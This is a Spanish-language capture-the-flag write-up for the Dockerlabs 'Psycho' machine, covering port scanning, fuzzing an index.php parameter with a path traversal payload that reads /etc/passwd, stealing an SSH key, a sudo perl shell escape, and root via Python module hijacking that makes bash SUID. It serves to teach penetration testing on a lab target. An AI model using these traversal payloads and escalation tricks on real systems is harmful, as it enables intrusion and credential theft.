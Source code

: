 ```yaml
---
layout: post
title: Psycho
subtitle: Plataforma Dockerlabs Dificultad Fácil
cover-img: /assets/img/Psycho.png
thumbnail-img: /assets/img/Psycho.png
share-img: /assets/img/Psycho.png
author: Elmili72
---
```


## 1. Escaneo general de puertos

El primer paso como siempre será realizar un escaneo general de los puertos en la máquina.

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 2. Escaneo específico de puertos

Conociendo los puertos abiertos, ahora habría que realizar un escaneo específicos de esos puertos para conocer que servicios y en que versión corren esos puertos.

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos que tenemos los puertos 22 y 80.
## 3. Reconocimiento de servicio web

A la hora de hacer reconocimiento web, a mi me gusta utilizar la herramienta *WHATWEB* para conocer las teconologías que corren en el puerto 80.

```bash
whatweb http://172.17.0.2                                                                                                                     
http://172.17.0.2 [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Script, Title[4You]
```

Una vez hemos visto lo que usa entramos en la página para ver lo que hay. Vemos botones de login y demás que no tienen ningún tipo de función.

![image](https://github.com/user-attachments/assets/0019ef0b-30e5-4241-ac56-255c5a704a4b)

Si bajamos del todo en la página aparece muy pequeño un mensaje de error.

![image](https://github.com/user-attachments/assets/428ac325-3e53-47a3-9d62-7220659ca3bd)

Podemos intuir que al ser una extensión *PHP* está intentando realizar una llamada  aun archivo del sistema que no llegar a alcanzar. Por lo que realizamos un escaneo con *WFUZZ* para reconocer el parámetro al cual tiene que llamar para cargar ese error. Además, de añadir un destino que podría sernos interesante para que ese parámetro nos refleje información si fuera el caso.

## 4. Escaneo de servicio web

Una vez ya hemos visto el contenido de la página toca escanear el interior de esta, usando *GOBUSTER* no nos aparece nada que sea realmente útil. Así que atendiendo a lo anteriormente dicho procedemos a realizar Fuzzing para ver si hemos acertado con la teoría.

```bash
wfuzz -c --hc 404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd
```

Efectivamente, aparece un parámetro llamado *secret*, con el cual podemos hacer cositas.

![image](https://github.com/user-attachments/assets/705c39fa-de8b-4a45-8479-6d06dc66825c)

Lo primero será mirar que usuarios tenemos y por los que podemos intentar una intrusión.

![image](https://github.com/user-attachments/assets/bc8910fb-5972-4085-adeb-7b9b72f4eb7e)
![image](https://github.com/user-attachments/assets/6dcee189-6749-47e0-966e-df4cc49a0f16)
![image](https://github.com/user-attachments/assets/0767be01-a0de-4282-8e66-75e03895c9fd)

## 5. Intrusión

Realizamos un intento de fuerza bruta con **HYDRA** pero no nos saca nada, por lo que vamos a aprovechar el parámetro de la web para intentar lograr alguna **ID_RSA** de los usuarios.

![image](https://github.com/user-attachments/assets/4c3b1611-d6bd-4fbd-87c9-f10dcd7c4c9b)

**IMPORTANTE**
```bash
chmod 600 id_rsa
```

![image](https://github.com/user-attachments/assets/77718b41-2afc-47bb-b5c2-50d5d6ccb8e4)

Y estamos dentro del usuario *Vaxei*

## 6. Pivoting

El usuario actual lamentablemente no nos da la posibilidad de realizar una escalada de privilegios directa, por lo que tendremos que realizar pivoting para saltar al usuario Luisillo y comprobar si nos da ese permiso.

```bash
vaxei@8a3056fa86ef:~$ sudo -l
Matching Defaults entries for vaxei on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 8a3056fa86ef:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Vemos que el binario *perl* puede ser explotado para el pivoting por lo que tiramos de nuestro fiel amigo *GTFOBins* y nos convertimos en el usuario Luisillo.

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
script /dev/null -c bash
stty raw -echo; fg
Ctrl + Z
reset XTERM

luisillo@8a3056fa86ef:/home/vaxei$ whoami
luisillo
```

## 7. Escalada de privilegios

Ahora el paso más bonito de un CTF, convertirnos en *ROOT*.

```bash
luisillo@8a3056fa86ef:/home/vaxei$ sudo -l
Matching Defaults entries for luisillo on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 8a3056fa86ef:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

De primeras ya vemos un script llamado *paw.py* que ejecuta un script que hace una llamada a un módulo que parece que no existe, por lo que como buenas personas que somos vamos a entregarle ese proceso que tanto busca :).

![image](https://github.com/user-attachments/assets/9def538a-44df-45fb-9c1f-45dd934fbfe4)

Creamos un script que se llame igual que pide el script anterior, en este caso *subprocess.py*. Y escribirmos lo siguiente:

![image](https://github.com/user-attachments/assets/9ce67438-f6cc-4295-bf9f-e038c39beecc)
![image](https://github.com/user-attachments/assets/5ae23475-978b-4397-91ef-40e022038683)


Podemos ver en la imagen anterior que la bash no tiene permisos SUID, pero nosotros vamos a corregir eso con nuestro suprocess.py.

![image](https://github.com/user-attachments/assets/864eb1f0-9ffc-4716-af0a-fac0768eb5f4)
![image](https://github.com/user-attachments/assets/956a65d6-49df-451b-8044-2073b5b1a383)

Tras ejecutar el script vemos que le hemos dado ese privilegio a la bash para poder ejecutar una bash privilegiada desde el usuario Luisillo.

```bash
luisillo@8a3056fa86ef:/opt$ bash -p
bash-5.2# whoami
root
```

Espero que os haya gustado y que os haya sido de ayuda este writeup, nos vemos en el próximo!

